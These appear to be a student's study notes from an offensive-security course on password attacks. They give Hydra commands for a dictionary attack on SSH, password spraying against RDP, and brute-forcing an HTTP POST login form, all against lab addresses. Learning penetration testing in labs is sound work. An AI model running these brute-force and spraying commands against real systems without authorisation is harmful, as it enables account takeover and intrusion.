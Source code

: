 
### SSH and RDP

Tool: #Hydra [[Hydra]]

GitHub: https://github.com/vanhauser-thc/thc-hydra

Wordlist: **rockyou.txt**

#### Dictionary Attack Against SSH:

Checking if target is running a SSH service

`sudo nmap -sV -p 2222 192.168.50.201`

We have already discovered the username George. 

Decompress `/usr/share/wordlists/rockyou.txt.gz`

`sudo gzip -d rockyou.txt.gz`

Run #hydra

`hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.50.201`
`-l`- single username
`-P`- password list 
`-s`- port 

#### Password Spraying Against RDP:

We already have a valid password _SuperS3cure1337#_ and need to find the matching username. 

Using hydra with `-L` for username wordlist

`hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#" rdp://192.168.50.202`

### HTTP POST Login Form

#### Dictionary Attack Against HTTP POST Login Form

![Figure 1: Login page of TinyFileManager](https://static.offsec.com/offsec-courses/PEN-200/imgs/passwordattacks/79a606f8d6a93e6bf28fcd5611a01b85-pwa_http_tiny.png)

Need to collect
1. POST data with request body 
2. Failed login attempt error message

Starting #burpsuite to intercept login attempt

Intercepted login:

![Figure 2: Intercepted Login Request](https://static.offsec.com/offsec-courses/PEN-200/imgs/passwordattacks/6719e356fc317843132b680f58d8ce62-pwa_http_intercept2.png)

request body:
`fm usr=user&fm pwd=user`

Identify failed login attempt error message as "Login failed. Invalid username or password"

![Figure 2: Intercepted Login Request](https://static.offsec.com/offsec-courses/PEN-200/imgs/passwordattacks/dd86e82a38f82a351a26f56a6393090a-pwa_http_failed4.png)

Hydra command for attack:

`hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.50.201 http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"`

